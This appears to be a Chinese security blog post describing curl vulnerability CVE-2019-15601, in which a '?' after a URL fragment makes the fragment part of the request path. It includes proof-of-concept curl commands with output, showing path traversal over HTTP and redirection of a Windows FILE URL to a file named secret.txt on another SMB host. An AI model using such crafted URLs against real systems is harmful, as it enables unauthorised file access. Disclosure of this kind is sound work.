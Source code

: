 #  不要总想搞小新闻，这个漏洞千万不要看！   
原创 回收CVE垃圾  一个不正经的黑客   2023-11-24 19:35  
  
<table><tbody style="outline: 0px;visibility: visible;"><tr style="outline: 0px;visibility: visible;"><td width="557" valign="top" height="62" style="outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><section style="margin-bottom: 15px;outline: 0px;visibility: visible;text-indent: 0em;"><span style="outline: 0px;font-size: 14px;visibility: visible;font-family: Optima-Regular, PingFangTC-light;color: rgb(255, 76, 65);"><strong style="outline: 0px;visibility: visible;">免责声明</strong></span><span style="outline: 0px;font-size: 14px;visibility: visible;"><span style="outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><strong style="outline: 0px;visibility: visible;">：</strong></span></span><span style="outline: 0px;visibility: visible;font-size: 14px;letter-spacing: 0.578px;">本文所涉及的技术和方法仅供合法合规的目的参考和学习使用。严禁利用本文内容从事任何违法或未经授权的活动。如因个人非法使用所造成的任何不良后果，作者及本公众号概不负责</span></section></td></tr></tbody></table>  
一个鲜为人知的处于Reserved状态的CVE漏洞:  
  
CVE-2019-15601  
  
01  
  
漏洞概述  
  
  
01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
 CURL 7.62 版本之后，尽管解析了在 "#"（片段分隔符）之后具有 "?"（参数分隔符）字符的 URL，但 CURL 的 urlapi 代码在处理路径时将哈希部分视为相同的路径，可能对某些特定协议产生安全影响。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
02  
  
问题描述  
  
  
02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
在 HTTP 上，攻击者可能通过在 URL 的片段部分附加 "?" 来修改原始请求，具体示例请参见下文。而在 FILE 协议上，CURL 可能在 Windows 上请求 FILE URL 时混淆，因为 Windows 上的 FILE 协议支持 SMB。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
  
03  
  
重现步骤  
  
  
03  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
HTTP Example:  
  
  
```
fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl -v "http://localhost/safepath/something#/../../anotherpath/somethingelse"
  % Total % Received % Xferd Average Speed Time Time Time Current
                                 Dload Upload Total Spent Left Speed
  0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0

* Trying ::1:80...
* TCP_NODELAY set
* Connected to localhost (::1) port 80 (#0)
> GET /safepath/something HTTP/1.1
> Host: localhost
> User-Agent: curl/7.66.0
> Accept: */*
>

fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl -v "http://localhost/safepath/something#/../../anotherpath/somethingelse?"
  % Total % Received % Xferd Average Speed Time Time Time Current
                                 Dload Upload Total Spent Left Speed
  0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0

* Trying ::1:80...
* TCP_NODELAY set
* Connected to localhost (::1) port 80 (#0)
> GET /anotherpath/somethingelse? HTTP/1.1
> Host: localhost
> User-Agent: curl/7.66.0
> Accept: */*
>
```  
  
  
  
File Example:  
  
  
```
fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl "file://localhost/windows/win.ini"
  % Total % Received % Xferd Average Speed Time Time Time Current
                                 Dload Upload Total Spent Left Speed
100    92  100    92    0     0  46000      0 --:--:-- --:--:-- --:--:-- 46000
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1


fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl "file://localhost/windows/win.ini#/../..//192.168.88.248/home/secret.txt"
  % Total % Received % Xferd Average Speed Time Time Time Current
                                 Dload Upload Total Spent Left Speed
100    92  100    92    0     0  46000      0 --:--:-- --:--:-- --:--:-- 46000
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

fmunozs@ashes MINGW64 ~/Downloads/curl-7.66.0_2-win64-mingw/curl-7.66.0-win64-mingw/bin
$ ./curl "file://localhost/windows/win.ini#/../..//192.168.88.248/home/secret.txt?"
  % Total % Received % Xferd Average Speed Time Time Time Current
                                 Dload Upload Total Spent Left Speed
100    33  100    33    0     0   2750      0 --:--:-- --:--:-- --:--:--  2750
file on different smb server/path
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
04  
  
漏洞影响  
  
  
04  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
HTTP Example:  
  
  
修改了多个协议上的预期请求行为，同时因为没多少人知道，所以初步判断该漏洞无影响，经鉴定为  
非核弹级  
漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dV2MexLmyjSmL9rgyuQwn3gewQ4XFZkPdQckzFmCzqVEtfOficwMWicd12vOVqzhibkUupaIlmcgiasTlXS7czf5Bg/640?wx_fmt=png "")  
  
往期推荐  
  
[【简单】获取任意微信号的wxid_开头原始ID](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499656&idx=1&sn=ce7ac3ca40c226334f292e8bd8c2b318&chksm=c0ce04f1f7b98de733e1206b331281181c6581e488c291bf25d540cc174cc15408b6dddbcbad&scene=21#wechat_redirect)  
  
  
[Kinsing恶意软件利用Apache ActiveMQ漏洞进行加密货币挖矿](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499397&idx=1&sn=42c33af2dfdc839c25ad3552eb68a8de&chksm=c0ce05fcf7b98cea72c7364dd56af82bd94fdf2c8b083edcb40fce1ca9301d8e8d9e8455e3e9&scene=21#wechat_redirect)  
  
  
[令人深思！OpenAI  加剧互联网失业浪潮](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499384&idx=1&sn=aa72c89e2302e438e18aeb671da8f4c7&chksm=c0ce0501f7b98c1768143999ee2c7cd9c9794da2b1e5d5347442807094a4581d04dd2648ff3c&scene=21#wechat_redirect)  
  
  
[[最新微信受影响] Chrome 任意文件读取漏洞EXP](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499374&idx=1&sn=0051c9f323f6aa42d2f4ef841001c134&chksm=c0ce0517f7b98c016682421e00f6a500bb2d620d37f90cffddb67cee25133bb7ac16e92fa7f6&scene=21#wechat_redirect)  
  
  
[魔法打败魔法！免费GPT4体验](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499355&idx=1&sn=4bab94a5db80a51fcfab6b7fb345c59c&chksm=c0ce0522f7b98c347bdad14c4e0b8f37007d7b910c85bf5c8ba95b6391eafcf49b37fad89b31&scene=21#wechat_redirect)  
  
  
[Burp?  Bambdas 新特性梦幻般能力加持](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499297&idx=1&sn=a62d29f87952ca6612159b55d4ee1162&chksm=c0ce0558f7b98c4e8ac7b42b5adbf57bd2d7489087cfff742f970c8e83c2089ab2eb3939ef43&scene=21#wechat_redirect)  
  
  
[如何真正写好Golang代码?](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247493352&idx=1&sn=77d813f3716b7892f1b23cbc8d5b5629&chksm=c0ce1d91f7b9948705ee48737b3fac838e08a047a289be5c7a325f70c147135aa288f18196d0&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GEcMgVDQuk8WXCeJeWxoCicw6NTYvUTNR1tmyLQNeEXZoqezmS9mTY0Re8jSGs0pRzuRhzicTOb0jiboMNNnhVPVg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GvZ8LrSx2FeBaGGenn2C0ztlEWCBVwbJIrwgKGKwVDSfOYUTdZv1giby52CluHIrYichAdeTJEpV0JYTfvXiaJZVw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaTuCKQ0GWZica1bCbcaogd3kV37XMTAC979jicsAIWEhexJWkvtRVOr8loZdgicspRevdGLzgoaVrxg/640?wx_fmt=gif "")  
  
点击下面阅读原文  
  
